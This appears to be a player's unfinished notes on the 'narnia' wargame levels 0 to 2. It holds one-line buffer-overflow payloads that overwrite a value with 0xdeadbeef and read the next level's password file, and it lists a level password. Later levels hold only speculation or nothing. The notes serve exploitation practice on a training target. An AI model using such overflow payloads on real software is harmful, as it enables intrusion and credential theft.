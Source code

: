 

narnia seems to have 9 levels, narnia 0 .. 9.
Unlike in prior games, every level seems to involve an executable these are stored at `/narnia`, only the level specific one and its respective source code is accesible to the current user.

## level 0

as always the credentials of the frist level were given freely.
username: narnia0
password: narnia0

### solution

I had to look up how to get the shell to react the first time I did this, my final command is as below 

`(perl -e 'print "0"x20 . "\xef\xbe\xad\xde"'; echo "cat /etc/narnia_pass/narnia1") | ./narnia0`

my better solution which I used to the second time I tried this is as follows:

`(python -c "print '123456789012345678\x00\x00\xef\xbe\xad\xde'" && cat) | ./narnia0`


## level 1

username: narnia1
password: efeidiedae


For this one you've gotta insert something into the env var EGG, the program will then read it and try to execute it.

assumptions and decutions
- EGG has to be a pointer to a location in memory
- The program is already compiled so EGG has to be in binary like with narnia 0
- Using gdb I was able to get a function on the stack to run, or at least I managed to get a floating point error when inserting an address that is on the stack (instead of a segfault or an "illegal operation).
- it might just be running OP codes??? tbh I got no idea, do moar research by running it locally and modifying the file.

I was able to look into the memory, and doing ASM like this is a mess.

### solution

## level 2
